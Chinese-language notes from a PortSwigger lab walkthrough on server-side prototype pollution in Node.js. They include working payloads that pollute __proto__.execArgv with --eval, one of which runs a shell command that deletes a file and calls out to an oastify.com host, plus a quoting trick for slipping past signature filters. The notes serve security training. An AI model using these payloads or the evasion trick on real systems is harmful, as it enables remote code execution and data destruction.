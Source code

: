 `"shell": "node"`：确保使用 Node shell 运行命令（不是 `/bin/sh`）。

`"NODE_OPTIONS"`：传入了 `--inspect=...`，这个参数会让新建的 Node 子进程自动去连这个地址。

转义：假设安全工具在查 “`abc123`” 这个特征：

- 你直接发送`abc123`，会被拦截。
- 你发送`ab\"c1\"23`，安全工具看到的是`ab"c1"23`，无法匹配`abc123`，于是放行。
- 目标系统会自动去掉转义，得到`abc123`，正常执行功能。

转义在这里就像给特征字符串 “加了干扰项”，让检测器 “认不出”，但目标能 “看懂”。

2：

在 Node.js 中，`child_process.fork()` 用于**创建一个子进程来执行新的 Node.js 脚本**。它接受一些参数，其中包括一个 `options` 对象。

这个 `options` 对象有一个重要字段：

- `execArgv`: 它是一个字符串数组，表示传给子进程的 Node.js 命令行参数，比如 `--inspect`、`--eval` 等。

```json
{
  "__proto__": {
    "execArgv": ["--eval=require('fs').writeFileSync('/tmp/pwned', 'hacked')"]
  }
}
```

![image-20250725203420758](portswigger.assets/image-20250725203420758.png)

用sspps扩展进行扫描，找到注入点![image-20250725205800661](portswigger.assets/image-20250725205800661.png)

![image-20250725204827738](portswigger.assets/image-20250725204827738.png)

 用json spaces确定污染

![image-20250725212518092](portswigger.assets/image-20250725212518092.png)

注入RCE后去触发他 发送![image-20250725212538386](portswigger.assets/image-20250725212538386.png)

然后这里污染一直没反应 到；另一个注入点

![image-20250725212647074](portswigger.assets/image-20250725212647074.png)

尝试执行whoami

![image-20250725213051857](portswigger.assets/image-20250725213051857.png)

![image-20250725213036348](portswigger.assets/image-20250725213036348.png)

直接删除"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('ping $(rm -f /home/carlos/morale.txt).lc1okipvqqufzogcvlo0jn3p0g69u0ip.oastify.com')"]
  }



## 108.实验室：通过服务器端原型污染泄露敏感数据
